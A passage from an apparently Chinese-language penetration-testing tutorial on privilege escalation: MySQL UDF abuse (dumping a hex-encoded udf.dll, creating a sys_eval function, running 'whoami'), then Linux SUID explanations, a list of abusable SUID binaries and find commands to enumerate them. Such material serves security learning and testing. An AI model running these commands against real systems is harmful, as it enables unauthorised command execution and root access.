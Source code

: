 ```sql
create table temp(data longblob);
select 0x0....(16进制字节) INTO DUMPFILE 'C:\\udf.dll';
```

国光师傅已经归纳好了 https://www.sqlsec.com/tools/udf.html

## 3.创建自定义函数

```sql
create table temp(data longblob);
select 0x0.... INTO DUMPFILE 'C:\\udf.dll';
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');       
```

# 0x03 SUID提权

## 1.什么是SUID

SUID(SET UID)是linux的一种特殊权限,当权限为suid的程序作为进程运行时,它的属主不是进程发起者,而是程序文件的所有者.(只针对二进制可执行文件)

比如在非root权限的条件下运行find程序,而find程序的所有者是root,我们就能短暂地执行root的命令,该进程的权限即为root.

```bash
设置SUID
chmod u+s filename   设置SUID位
chmod u-s filename   去掉SUID设置

ls -al               查看文件权限
```

## 2.利用SUID提权

常见的拥有SUID的程序有

> 
> nmap
> vim
> find
> bash
> more
> less
> nano
> cp
> awk
> 



查看拥有SUID权限的文件,皆可.

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {};
```
